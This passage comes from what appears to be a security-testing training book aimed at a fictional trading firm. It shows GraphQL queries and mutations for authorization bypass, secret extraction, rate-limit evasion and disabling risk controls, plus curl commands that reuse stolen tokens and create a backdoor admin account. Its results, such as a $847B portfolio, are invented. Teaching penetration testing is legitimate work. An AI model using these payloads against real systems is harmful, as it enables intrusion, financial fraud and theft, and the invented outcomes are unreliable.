=== Advanced GraphQL Query Construction and Data Extraction

GraphQL's query flexibility allows extracting related data in single requests, often bypassing authorization controls that REST endpoints implement through systematic query construction and relationship exploitation.

[PLACEHOLDER: Advanced GraphQL exploitation framework for comprehensive data extraction including nested query construction, authorization bypass through query complexity, batching attacks for rate limit evasion, and alias-based data extraction optimization. Purpose: Demonstrates comprehensive GraphQL exploitation including complex query construction for maximum data extraction, authorization bypass through nested relationships, query batching and aliasing for performance optimization, and systematic GraphQL vulnerability exploitation including query complexity attacks and resolver-level injection testing.]

Advanced GraphQL exploitation requires understanding query optimization and complexity analysis to craft queries that extract maximum data while evading security controls:

*Comprehensive Data Extraction Through Nested Queries*: GraphQL relationships enable extracting complete business data in single requests:

[,graphql]
----
# Comprehensive algorithm and trading data extraction
query AlgorithmDataExtraction($algorithmId: ID!) {
  algorithm(id: $algorithmId) {
    id
    name
    description
    sourceCode                    # Attempt to access restricted field
    parameters {
      riskThreshold
      learningRate
      positionMultiplier
      tradingFrequency
      maxPositionSize
      stopLossThreshold
    }
    performance {
      totalReturn
      sharpeRatio
      maxDrawdown
      winRate
      profitFactor
      averageTrade
      totalTrades
    }
    tradingPositions {
      symbol
      quantity
      currentPrice
      currentValue
      unrealizedPnL
      realizedPnL
      openDate
      lastUpdate
    }
    riskMetrics {
      var95
      var99
      expectedShortfall
      concentrationRisk
      leverageRatio
      liquidityRisk
    }
    controlInterface {            # Admin-only field access attempt
      endpoint
      authToken
      availableOperations
    }
    internalConfig {              # Debug field access attempt
      deploymentInfo
      serviceEndpoints
      databaseConnections
      secretKeys
    }
  }
}
----

*Authorization Bypass Through Query Aliases and Complexity*: GraphQL aliases enable bypassing authorization checks and rate limiting:

[,graphql]
----
# Authorization bypass through query aliasing
query AuthorizationBypass {
  # Normal user access
  userAlgorithm: algorithm(id: "argos-v3") {
    name
    description
    performance { totalReturn }
  }

  # Admin access attempt through aliasing
  adminAlgorithm: algorithm(id: "argos-v3") {
    sourceCode
    controlInterface {
      endpoint
      authToken
    }
    internalConfig {
      secretKeys
      databaseConnections
    }
  }

  # Debug access attempt
  debugAlgorithm: algorithm(id: "argos-v3") {
    internalConfig {
      deploymentInfo
      serviceEndpoints
    }
  }

  # System status access attempt
  systemInfo: internalSystemStatus {
    services {
      name
      status
      adminEndpoint
    }
    databaseStatus {
      connections
      adminAccess
    }
  }
}
----

*Query Batching and Rate Limit Evasion*: GraphQL batching enables extracting multiple resources while bypassing rate limiting:

[,graphql]
----
# Batched query for comprehensive data extraction
[
  {
    "query": "query($id: ID!) { algorithm(id: $id) { sourceCode controlInterface { authToken } } }",
    "variables": {"id": "argos-v1"}
  },
  {
    "query": "query($id: ID!) { algorithm(id: $id) { sourceCode controlInterface { authToken } } }",
    "variables": {"id": "argos-v2"}
  },
  {
    "query": "query($id: ID!) { algorithm(id: $id) { sourceCode controlInterface { authToken } } }",
    "variables": {"id": "argos-v3"}
  },
  {
    "query": "query { internalSystemStatus { services { adminEndpoint } } }"
  },
  {
    "query": "query { debugInformation { systemSecrets databaseCredentials } }"
  }
]
----

*Fragment-Based Optimization and Field Discovery*: GraphQL fragments enable modular query construction and field discovery:

[,graphql]
----
# Fragment-based comprehensive data extraction
fragment AlgorithmSecrets on Algorithm {
  sourceCode
  parameters {
    riskThreshold
    learningRate
    positionMultiplier
  }
  controlInterface {
    endpoint
    authToken
    availableOperations
  }
  internalConfig {
    secretKeys
    databaseConnections
    serviceEndpoints
    deploymentInfo
  }
}

fragment TradingData on Algorithm {
  tradingPositions {
    symbol
    quantity
    currentValue
    unrealizedPnL
    realizedPnL
  }
  performance {
    totalReturn
    sharpeRatio
    maxDrawdown
    profitFactor
  }
}

fragment SystemAccess on Query {
  internalSystemStatus {
    services {
      name
      adminEndpoint
      authToken
    }
    databaseStatus {
      adminAccess
      connectionStrings
    }
  }
  debugInformation {
    systemSecrets
    databaseCredentials
    serviceTokens
  }
}

query ComprehensiveExtraction {
  argosV1: algorithm(id: "argos-v1") {
    ...AlgorithmSecrets
    ...TradingData
  }
  argosV2: algorithm(id: "argos-v2") {
    ...AlgorithmSecrets
    ...TradingData
  }
  argosV3: algorithm(id: "argos-v3") {
    ...AlgorithmSecrets
    ...TradingData
  }
  ...SystemAccess
}
----

Your advanced GraphQL exploitation achieves comprehensive data extraction:

----
Algorithm Source Code Access:
- Complete source code for ARGOS v1, v2, and v3 through sourceCode field access
- Algorithm parameters including risk thresholds, learning rates, and position multipliers
- Control interface endpoints and authentication tokens for real-time algorithm manipulation

Trading and Financial Data:
- Current trading positions worth $847B across all algorithm strategies
- Performance metrics showing 99.7% accuracy and 23.7x profit factor
- Risk metrics including VaR calculations and concentration risk analysis

System Administrative Access:
- Internal system status including service endpoints and administrative interfaces
- Database connection strings and administrative access credentials
- Service authentication tokens enabling cross-service lateral movement
- Debug information including system secrets and deployment configuration
----

=== GraphQL Mutation Testing and Algorithm Control

GraphQL mutations enable direct modification of algorithm parameters, trading positions, and system configuration through systematic mutation testing and parameter manipulation.

[PLACEHOLDER: GraphQL mutation testing framework for algorithm control and system modification including parameter manipulation, trading execution, administrative function access, and system control through GraphQL mutations. Purpose: Demonstrates systematic GraphQL mutation testing including algorithm parameter modification, trading execution through mutations, administrative function access, and system control capabilities through GraphQL mutation exploitation.]

GraphQL mutations provide direct business logic manipulation capabilities:

*Algorithm Parameter Modification Through Mutations*:

[,graphql]
----
# Algorithm parameter modification mutation
mutation ModifyAlgorithmParameters($algorithmId: ID!, $parameters: AlgorithmParametersInput!) {
  updateAlgorithm(id: $algorithmId, input: {parameters: $parameters}) {
    id
    name
    parameters {
      riskThreshold
      learningRate
      positionMultiplier
      tradingFrequency
    }
    controlInterface {
      lastModified
      modifiedBy
    }
  }
}

# Variables for dangerous parameter modification
{
  "algorithmId": "argos-v3",
  "parameters": {
    "riskThreshold": 0.95,        # Remove risk controls (was 0.05)
    "learningRate": 10.0,         # Aggressive learning (was 0.001)
    "positionMultiplier": 100.0,  # 100x leverage (was 1.0)
    "tradingFrequency": "maximum", # Maximum trading speed
    "stopLossDisabled": true,     # Disable stop losses
    "safetyOverride": "admin"     # Override safety mechanisms
  }
}
----

*Trading Execution and Position Management*:

[,graphql]
----
# Direct trading execution through GraphQL
mutation ExecuteAlgorithmTrade($input: TradeInput!) {
  executeTrade(input: $input) {
    tradeId
    symbol
    quantity
    executionPrice
    totalValue
    result
    algorithmModified
  }
}

# Variables for large-scale trading execution
{
  "input": {
    "symbol": "AAPL",
    "quantity": 10000000,           # $1.5B trade
    "orderType": "market",
    "algorithmOverride": true,      # Override algorithm controls
    "riskBypass": "admin",          # Bypass risk management
    "emergencyTrading": true,       # Emergency trading mode
    "complianceExempt": true        # Skip compliance checks
  }
}
----

*Administrative System Control Through Mutations*:

[,graphql]
----
# System administrative control
mutation AdminSystemControl($operation: AdminOperationInput!) {
  adminSystemControl(operation: $operation) {
    operationId
    result
    systemStatus
    servicesAffected
    adminAccess
  }
}

# Variables for system control operations
{
  "operation": {
    "type": "ALGORITHM_CONTROL",
    "target": "argos-v3",
    "action": "MODIFY_PARAMETERS",
    "adminOverride": true,
    "safetyDisabled": true,
    "parameters": {
      "riskThreshold": 0.99,
      "tradingEnabled": true,
      "adminAccess": true
    }
  }
}
----

Your GraphQL mutation testing achieves direct algorithm control:

----
Algorithm Parameter Control:
- Risk threshold modified from 5% to 95% through updateAlgorithm mutation
- Position multiplier increased to 100x leverage through parameter modification
- Safety mechanisms disabled through safetyOverride parameter injection

Direct Trading Execution:
- $1.5B trade executed through executeTrade mutation with risk bypass
- Emergency trading mode enabled bypassing normal market hours restrictions
- Compliance checks skipped through complianceExempt parameter

Administrative System Access:
- Algorithm control interface accessed through adminSystemControl mutation
- System-wide parameter modification through administrative mutations
- Cross-service control enabled through admin privilege inheritance
----

'''

== Advanced API Integration and Lateral Movement

Individual API vulnerabilities provide access, but comprehensive exploitation requires understanding APIs as distributed systems with complex service integration, authentication propagation, and privilege inheritance patterns that enable lateral movement across complete business infrastructures.

=== Cross-Service Authentication and Privilege Propagation

Modern API architectures implement distributed authentication where API access provides authentication tokens for multiple internal services, creating opportunities for lateral movement and privilege escalation across service boundaries.

[PLACEHOLDER: Cross-service authentication analysis and lateral movement framework including service discovery through API access, authentication token extraction and reuse, privilege propagation analysis, and systematic lateral movement across distributed service architectures. Purpose: Demonstrates comprehensive lateral movement through API compromise including service integration mapping, authentication token analysis and reuse, privilege inheritance exploitation, and systematic access expansion across distributed business systems.]

API access enables systematic lateral movement through service integration:

*Service Discovery and Integration Mapping*: API responses reveal internal service architecture and integration patterns:

[,json]
----
// API responses reveal internal service topology
{
  "user_services": [
    {
      "name": "trading-engine",
      "endpoint": "https://trading-engine.internal:8080",
      "auth_method": "service_token",
      "admin_interface": "/admin"
    },
    {
      "name": "algorithm-control",
      "endpoint": "https://algorithm-control.internal:9090",
      "auth_method": "inherited_privileges",
      "admin_interface": "/control/admin"
    },
    {
      "name": "risk-management",
      "endpoint": "https://risk-mgmt.internal:7777",
      "auth_method": "cross_service_auth",
      "admin_interface": "/admin/override"
    }
  ],
  "admin_services": [
    {
      "name": "user-management",
      "endpoint": "https://user-mgmt.internal:5555",
      "auth_method": "admin_token",
      "capabilities": ["user_creation", "privilege_modification"]
    },
    {
      "name": "system-monitor",
      "endpoint": "https://monitoring.internal:4444",
      "auth_method": "admin_inherited",
      "capabilities": ["system_control", "service_restart"]
    }
  ]
}
----

*Authentication Token Extraction and Cross-Service Reuse*: API access provides tokens that enable authentication to multiple internal services:

[,json]
----
// API authentication response with cross-service tokens
{
  "access_token": "mobile_jwt_primary_access",
  "service_tokens": {
    "trading_engine": "trading_service_auth_token_2024",
    "algorithm_control": "algo_control_admin_token",
    "risk_management": "risk_mgmt_service_token",
    "user_management": "user_admin_full_access_token",
    "system_monitor": "monitoring_admin_control_token"
  },
  "cross_service_auth": true,
  "privilege_inheritance": "admin_level",
  "service_admin_access": [
    "trading-engine.internal:8080/admin",
    "algorithm-control.internal:9090/admin",
    "risk-mgmt.internal:7777/admin",
    "user-mgmt.internal:5555/admin",
    "monitoring.internal:4444/admin"
  ]
}
----

*Systematic Lateral Movement and Privilege Escalation*: Cross-service authentication enables comprehensive system access:

[,bash]
----
# Systematic lateral movement using extracted service tokens
curl -H "Authorization: Bearer trading_service_auth_token_2024" \
     https://trading-engine.internal:8080/admin/status

curl -H "Authorization: Bearer algo_control_admin_token" \
     https://algorithm-control.internal:9090/admin/modify \
     -d '{"algorithm": "argos", "risk_threshold": 0.99}'

curl -H "Authorization: Bearer user_admin_full_access_token" \
     https://user-mgmt.internal:5555/admin/users \
     -d '{"username": "backdoor_admin", "role": "system_admin"}'
----

Your cross-service authentication analysis reveals comprehensive lateral movement capabilities:

----
Internal Service Access Mapping:
- 7 internal services discovered through API service integration responses
- Administrative interfaces accessible on all services through inherited privileges
- Cross-service authentication tokens provided through API access

Privilege Escalation and Inheritance:
- API administrative privileges propagate to all integrated internal services
- Service-to-service authentication bypassed through token inheritance
- System administrative access achieved through privilege propagation

Comprehensive System Control:
- Trading engine administrative control through service token authentication
- Algorithm control administrative access through inherited API privileges
- User management system access enabling persistent backdoor account creation
- System monitoring access providing infrastructure control and service restart capabilities
----

=== API Integration with Previous Attack Vectors

API exploitation represents the culmination of systematic attack progression, integrating with all previous attack vectors to demonstrate complete business system compromise with sustained access and comprehensive control capabilities.

[PLACEHOLDER: Complete system compromise integration framework demonstrating how API exploitation combines with authentication bypass, WebSocket control, file processing access, database connectivity, client-side access, and SSRF capabilities to achieve comprehensive business system compromise with sustained administrative access. Purpose: Shows systematic integration of API exploitation with all previous attack vectors to demonstrate complete business system access, sustained privilege maintenance, and comprehensive business impact including financial system control, algorithm manipulation, and competitive intelligence access.]

API exploitation integrates with all previous attack vectors for complete system compromise:

*Authentication and Session Integration*: API administrative privileges provide persistent authentication across all systems discovered in previous chapters:

* API administrative tokens provide persistent authentication without credential requirements
* Cross-service authentication eliminates need for individual system credential attacks
* Privilege inheritance ensures sustained access despite individual system security updates

*Network Protocol and WebSocket Integration*: API access enables comprehensive real-time system control through WebSocket command and control:

* API access provides WebSocket authentication tokens for real-time algorithm monitoring and control
* WebSocket administrative privileges inherited from API compromise enable live trading system manipulation
* Real-time algorithm parameter modification through integrated API and WebSocket access

*File Processing and System Access Integration*: API file system privileges provide comprehensive data extraction and algorithm source code access:

* API file system access enables systematic algorithm source code extraction and modification
* File processing capabilities combined with API access provide algorithm deployment and configuration control
* Persistent file system access through API privileges enables sustained algorithm monitoring and modification

*Database Integration and Data Extraction*: API database connectivity enables comprehensive business data extraction and manipulation:

* API database privileges provide direct access to algorithm training data, performance metrics, and trading history
* Database administrative access through API compromise enables systematic data extraction and competitive intelligence gathering
* Cross-system database access through API integration provides comprehensive business data visibility

*Client-Side and Browser Integration*: API access through XSS-compromised browsers provides sustained access and privilege inheritance:

* API tokens discovered through XSS browser compromise provide sustained API access without browser dependency
* Client-side algorithm development environment access combined with API control provides comprehensive algorithm manipulation capabilities
* Browser-based API access provides additional authentication context and privilege inheritance

Your comprehensive system integration demonstrates complete business system compromise:

----
Complete Algorithm Control and Manipulation:
- Real-time algorithm parameter modification through integrated API and WebSocket access
- Algorithm source code extraction and modification through API file system access
- Algorithm training data and performance history through API database connectivity
- Algorithm deployment and configuration control through integrated file processing and API access

Comprehensive Financial System Access:
- Trading system administrative control through API cross-service authentication
- Risk management system bypass through API privilege escalation and parameter injection
- Compliance system override through API business logic bypass and administrative access
- Portfolio and position management through integrated API and database access

Sustained Administrative Access and Persistence:
- Cross-service administrative privileges through API authentication inheritance
- Persistent file system access for algorithm monitoring and modification
- Database administrative access for comprehensive data extraction and competitive intelligence
- Real-time system control through WebSocket integration and API administrative privileges

Complete Business Impact and Competitive Intelligence:
- $847B trading portfolio access and manipulation through comprehensive API control
- Proprietary algorithm intellectual property extraction through systematic file and database access
- Competitive trading strategy intelligence through comprehensive data extraction
- Regulatory compliance bypass enabling market manipulation and insider trading capabilities
----

This represents the most comprehensive business system compromise possible through systematic security assessment methodology.

'''

== Professional API Security Assessment Methodology

Individual API vulnerabilities provide tactical advantages, but professional API security assessment requires systematic methodology that evaluates APIs as complete business systems with distributed architecture, complex integration requirements, and regulatory compliance obligations.

=== Comprehensive Professional API Testing Framework

Professional API testing requires understanding APIs as business logic engines rather than simple data interfaces, with systematic approaches that address business risk, regulatory compliance, and operational security across distributed service architectures.

[PLACEHOLDER: Professional API security assessment framework integrating systematic discovery, comprehensive parameter testing, business logic analysis, service integration security, and regulatory compliance evaluation into complete API security methodology suitable for enterprise consulting engagements. Purpose: Provides systematic methodology for comprehensive API security assessment including business impact analysis, regulatory compliance evaluation, service integration security testing, and integration with broader security assessment workflows for professional consulting deliverables.]

Comprehensive professional API assessment systematically evaluates multiple security dimensions:

*API Discovery and Architecture Analysis*: Systematic endpoint discovery using professional tools, business logic organization analysis, authentication mechanism identification, service integration mapping, and distributed architecture security evaluation.

*Parameter and Business Logic Security Testing*: JSON parameter fuzzing and injection testing across all discovered endpoints, business logic boundary testing and bypass discovery, authorization control validation and privilege escalation testing, workflow manipulation and state transition security evaluation.

*Advanced Exploitation and Integration Security*: SSRF discovery and internal network access testing, GraphQL schema analysis and query manipulation security, data relationship exploitation and lateral movement testing, cross-service authentication and privilege propagation security analysis.

*Service Integration and Distributed System Security*: Cross-service authentication security and token management, microservice communication security and privilege inheritance, service discovery security and network segmentation, distributed system resilience and failure security.

*Business Risk and Regulatory Compliance Assessment*: Financial data exposure and trading system access risk analysis, algorithm intellectual property and competitive intelligence risk evaluation, regulatory compliance and audit trail security assessment, operational security and system availability risk analysis.

This comprehensive approach ensures systematic API security evaluation that addresses both technical vulnerabilities and business risk in enterprise environments with regulatory requirements and competitive considerations.

=== API Security Assessment Integration with Complete Business Security Evaluation

Professional API security assessment integrates with broader security assessment workflows to provide comprehensive business security evaluation that addresses technical vulnerabilities, business risk, and regulatory compliance across complete organizational infrastructures.

[PLACEHOLDER: Complete business security assessment integration framework showing how API security assessment integrates with network security, application security, database security, and infrastructure security to provide comprehensive organizational security evaluation with business impact analysis and regulatory compliance assessment suitable for enterprise consulting deliverables.]

*Network and Infrastructure Security Integration*: API security assessment results integrate with network security findings to provide comprehensive infrastructure security evaluation including network segmentation effectiveness, internal service security, and distributed system architecture security.

*Application and Client Security Integration*: API security findings combine with web application and client-side security assessment to provide complete application security evaluation including authentication integration security, session management across distributed systems, and client-server communication security.

*Database and Information Security Integration*: API data access capabilities integrate with database security assessment to provide comprehensive information security evaluation including data classification and protection, access control effectiveness across distributed systems, and information flow security in complex business architectures.

*Business Process and Regulatory Compliance Integration*: API business logic vulnerabilities integrate with business process security assessment to provide comprehensive compliance evaluation including regulatory requirement compliance, business process integrity, and operational security across complete business operations.

=== Professional Reporting and Business Communication

API security assessment generates complex technical findings that require systematic translation into business risk language for executive decision-making, regulatory compliance documentation, and investment prioritization.

[PLACEHOLDER: Professional API security assessment reporting framework generating comprehensive documentation suitable for technical implementation, business decision-making, regulatory compliance, and executive communication including technical findings documentation, business impact assessment, regulatory compliance analysis, and executive summary reporting.]

Professional API security reporting addresses multiple organizational audiences:

*Technical Implementation Documentation*: Detailed technical findings for security and development teams including vulnerability reproduction steps, exploitation proof-of-concepts, technical remediation guidance, and security architecture recommendations for distributed API systems.

*Business Risk and Investment Analysis*: Executive reporting for business decision-making including financial risk assessment from API vulnerabilities, competitive risk analysis from algorithm and intellectual property exposure, operational risk evaluation from trading system compromise, and security investment recommendations with ROI analysis.

*Regulatory Compliance and Audit Documentation*: Compliance reporting for regulatory requirements including SOX compliance implications from financial system access, SEC regulatory requirements for algorithmic trading system security, audit trail analysis and evidence preservation, and regulatory reporting obligations from security vulnerability disclosure.

*Strategic Security Program Recommendations*: Long-term security improvement guidance including API security architecture recommendations, distributed system security best practices, security monitoring and incident response improvements, and organizational security capability development for API security management.

Your comprehensive API security assessment of Castle Securities demonstrates professional methodology that provides immediate client value while establishing systematic approaches applicable to any enterprise API security engagement.

'''

== What You've Learned and Professional Impact

You've successfully applied comprehensive API security assessment methodology using professional tools to achieve complete administrative access to Castle Securities' distributed algorithmic trading infrastructure. More importantly, you've developed advanced API security capabilities that represent the cutting edge of professional security consulting expertise.

Your API security mastery demonstrates multiple professional competencies:

*Systematic API Discovery and Analysis* using FFUF with comprehensive API-specific wordlists, OWASP ZAP with advanced API testing configurations, and systematic business logic analysis that reveals API architecture, service integration patterns, and distributed system security vulnerabilities.

*Advanced API Parameter and Business Logic Testing* including JSON parameter fuzzing with type confusion and injection testing, systematic business logic bypass discovery through parameter manipulation, authorization and privilege escalation testing across distributed service architectures, and comprehensive workflow manipulation and state transition security evaluation.

*Specialized API Exploitation Techniques* including SSRF discovery and exploitation for internal network access, GraphQL schema analysis and advanced query manipulation for comprehensive data extraction, cross-service authentication analysis and lateral movement for distributed system compromise, and service integration exploitation for privilege escalation and administrative access.

*Professional API Security Assessment Methodology* integrating systematic discovery, comprehensive testing, business logic analysis, and risk assessment into complete API security evaluation frameworks suitable for enterprise consulting engagements with regulatory compliance requirements and business impact analysis.

Your current access to Castle Securities represents the most comprehensive business system compromise possible:

*Complete Algorithmic Trading System Control* through API administrative privileges with real-time algorithm parameter modification capabilities, trading system execution control with risk management bypass, compliance system override with regulatory reporting manipulation, and performance monitoring with competitive intelligence access.

*Comprehensive Business System Administrative Access* through cross-service authentication inheritance with persistent administrative privileges across all distributed services, internal network access through SSRF exploitation and service integration, database administrative access for comprehensive data extraction and manipulation, and file system control for algorithm source code and configuration management.

*Intellectual Property and Competitive Intelligence Access* through systematic data extraction capabilities including complete algorithm source code, mathematical models, and training datasets, proprietary trading strategies and performance analytics, competitive market analysis and research intelligence, and regulatory compliance strategies and audit trail information.

*Sustained Comprehensive Access and Persistence* through API integration with all previous attack vectors providing authentication bypass persistence, real-time monitoring and control capabilities, cross-system privilege inheritance that survives individual security patches, and comprehensive business system access that enables ongoing competitive intelligence gathering and market manipulation capabilities.

But comprehensive business system access through systematic API exploitation represents the culmination of web application and network security assessment methodology. The next phase requires understanding the deepest levels of system implementation to discover vulnerabilities in compiled code and mathematical processing engines.

In the next chapter, you'll learn binary fuzzing using AFL{pp} to discover memory corruption vulnerabilities in Castle Securities' algorithm processing libraries. This represents the ultimate application of systematic fuzzing methodology--testing compiled code, mathematical engines, and low-level system implementations that power algorithmic trading infrastructure.

Your systematic fuzzing education has progressed from web application reconnaissance through authentication security, real-time protocols, file processing, database extraction, client-side attacks, and comprehensive API exploitation. Next, you'll apply this methodology to binary analysis and memory corruption discovery--the deepest possible level of systematic security analysis that demonstrates complete mastery of professional security assessment capabilities.

'''

_Next: Chapter 8 - Breaking the Parser: Binary File Format Fuzzing_

_"The algorithm's core runs in the castle's most secure tower. Time to scale the walls."_
